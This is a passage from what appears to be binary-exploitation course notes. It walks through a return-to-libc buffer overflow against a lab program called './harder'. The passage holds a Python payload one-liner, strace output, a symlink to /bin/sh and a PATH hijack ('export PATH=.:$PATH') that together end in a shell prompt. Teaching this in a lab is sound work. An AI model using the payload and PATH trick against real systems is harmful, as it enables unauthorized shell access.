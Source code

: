 We don't get what we want. But, the game is not up.

## Using Sym Linking and PATH manipulation

If you look closely, you see the error, "4: not found", but let's take a
closer look at this error under `strace`.

``` example
user@si485H-base:demo$ strace -f ./harder `python -c "cmd='/bin/sh;';print cmd+'A'*(0x28+4-len(cmd))+'\x90\xa1\xe5\xb7'"`
execve("./harder", ["./harder", "/bin/sh;AAAAAAAAAAAAAAAAAAAAAAAA"...], [/* 20 vars */]) = 0
(...)
clone(child_stack=0, flags=CLONE_PARENT_SETTID|SIGCHLD, parent_tidptr=0xbffff544) = 2460
waitpid(2460, Process 2460 attached
 <unfinished ...>
(...)
[pid  2460] stat64("/usr/local/sbin/4\17\2", 0xbffff490) = -1 ENOENT (No such file or directory)
[pid  2460] stat64("/usr/local/bin/4\17\2", 0xbffff490) = -1 ENOENT (No such file or directory)
[pid  2460] stat64("/usr/sbin/4\17\2", 0xbffff490) = -1 ENOENT (No such file or directory)
[pid  2460] stat64("/usr/bin/4\17\2", 0xbffff490) = -1 ENOENT (No such file or directory)
[pid  2460] stat64("/sbin/4\17\2", 0xbffff490) = -1 ENOENT (No such file or directory)
[pid  2460] stat64("/bin/4\17\2", 0xbffff490) = -1 ENOENT (No such file or directory)
[pid  2460] stat64("/usr/games/4\17\2", 0xbffff490) = -1 ENOENT (No such file or directory)
[pid  2460] stat64("/usr/local/games/4\17\2", 0xbffff490) = -1 ENOENT (No such file or directory)
[pid  2460] write(2, "sh: 1: ", 7sh: 1: )      = 7
[pid  2460] write(2, "4\17\2: not found", 144: not found) = 14
[pid  2460] write(2, "\n", 1
(...)
```

What you see is that it is looking for the string "4\\17\\2" along the
path. All we need to do is create a file along the execution path for
"4\\17\\2" that will execute a shell.

To start, let's create a symbolic link to /bin/sh called "4\\17\\2":

``` example
user@si485H-base:demo$ ln -s /bin/sh $(printf "4\17\2")
user@si485H-base:demo$ ls -l 4^O^B 
lrwxrwxrwx 1 user user 7 Nov 24 10:04 4?? -> /bin/sh
```

Now, we just need to edit the `PATH` environment variable to put this
along the path lookup:

``` example
user@si485H-base:demo$ export PATH=.:$PATH
user@si485H-base:demo$ echo $PATH
.:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
```

Now, let's exploit away:

``` example
user@si485H-base:demo$ ./harder `python -c "cmd='/bin/sh;';print cmd+'A'*(0x28+4-len(cmd))+'\x90\xa1\xe5\xb7'"`
/bin/sh;AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA???
$ 
```
